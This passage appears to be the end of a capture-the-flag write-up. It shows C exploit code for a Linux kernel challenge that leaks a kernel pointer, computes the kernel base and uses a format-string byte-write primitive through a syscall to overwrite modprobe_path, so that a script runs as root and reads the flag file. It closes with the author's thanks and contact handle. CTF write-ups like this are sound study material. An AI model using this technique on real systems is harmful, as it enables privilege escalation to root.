 ```c

void write_byte(uint64_t where, uint8_t what){
    char fmt[0x30];

    sprintf(fmt, "%%%dc%%1$hhn", what);

    char *data[] = {fmt, where};
    syscall(SYSCALL_NO, data);
}

void write_str(uint64_t addr, char *str){
    for(int i = 0; i < strlen(str); i++){
        write_byte(addr + i, str[i]);
    }
}

int main(int argc, char *argv[]){
    uint64_t ptr = get_leak(); // tty_dev_attr_group

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t modprobe_path = kbase + 0x164ec60;

    printf("kernel base: %p\n", kbase);
    printf("modprobe_path: %p\n", modprobe_path);

    write_str(modprobe_path, "/home/user/to_exec.sh");

    system("/home/user/invalid");
    system("cat /root/flag.txt");
}
```

Lastly, I want to say that I might have got some things wrong, if you know about it or want to discuss something or have any questions, ping me on discord `stdnoerr#7880`.<br>
I want to say thanks to `Bitfriends#2070` for making this challenge.
